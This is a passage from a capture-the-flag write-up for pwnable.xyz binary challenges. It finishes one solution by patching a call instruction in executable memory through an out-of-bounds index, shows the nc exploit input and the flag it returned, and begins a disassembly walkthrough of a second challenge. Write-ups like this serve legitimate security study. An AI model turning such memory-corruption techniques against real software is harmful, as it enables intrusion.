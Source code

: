Also, we have to consider the fact that our target address should be in the form of [<result> - 8*i]. Forcing us to use 0x8000b10 (= <result> - (262878*8))

We have to change this
```
0x8000b15 E8 E6 FC FF FF
0x8000b10 <main+220>:   0xfce6e800000000b8
```
to this
```
0x8000b15 E8 07 FF FF FF
0x8000b10 <main+220>:   0xff07e800000000b8
```

exploit:
```bash
junheah@ubuntu:~$ nc svc.pwnable.xyz 30029
The Poopolator
> 💩   -69832182503309127 1 -262878
FLAG{how_did_text_happen_to_be_rwx}> 💩
```
```
reference:
https://umbum.tistory.com/102
```

## 7. Two Targets
```nasm
...
0x0000000000400b3b <+55>:    call   0x4009af <read_int32>
0x0000000000400b40 <+60>:    mov    DWORD PTR [rbp-0x44],eax
0x0000000000400b43 <+63>:    mov    eax,DWORD PTR [rbp-0x44]
0x0000000000400b46 <+66>:    cmp    eax,0x2
0x0000000000400b49 <+69>:    je     0x400b9b <main+151>
0x0000000000400b4b <+71>:    cmp    eax,0x2
0x0000000000400b4e <+74>:    jg     0x400b5a <main+86>
0x0000000000400b50 <+76>:    cmp    eax,0x1
0x0000000000400b53 <+79>:    je     0x400b6d <main+105>
0x0000000000400b55 <+81>:    jmp    0x400c0c <main+264>
0x0000000000400b5a <+86>:    cmp    eax,0x3
0x0000000000400b5d <+89>:    je     0x400bca <main+198>
0x0000000000400b5f <+91>:    cmp    eax,0x4
0x0000000000400b62 <+94>:    je     0x400bf5 <main+241>
0x0000000000400b68 <+100>:   jmp    0x400c0c <main+264>
...
```
The main function reads input from user and jumps to inputted menu.
```
...
<1> change name
0x0000000000400b6d <+105>:   lea    rdi,[rip+0x11d5]        # 0x401d49 "name: "
0x0000000000400b74 <+112>:   mov    eax,0x0
0x0000000000400b79 <+117>:   call   0x4007b0 <printf@plt>
0x0000000000400b7e <+122>:   lea    rax,[rbp-0x40]
0x0000000000400b82 <+126>:   mov    rsi,rax
0x0000000000400b85 <+129>:   lea    rdi,[rip+0x11c4]        # 0x401d50 "%32s"
0x0000000000400b8c <+136>:   mov    eax,0x0
0x0000000000400b91 <+141>:   call   0x400820 <__isoc99_scanf@plt>
0x0000000000400b96 <+146>:   jmp    0x400c1b <main+279>

<2> change nationality
0x0000000000400b9b <+151>:   lea    rdi,[rip+0x11b3]        # 0x401d55 "nationality: "
0x0000000000400ba2 <+158>:   mov    eax,0x0
0x0000000000400ba7 <+163>:   call   0x4007b0 <printf@plt>
0x0000000000400bac <+168>:   lea    rax,[rbp-0x40]
0x0000000000400bb0 <+172>:   add    rax,0x20
```
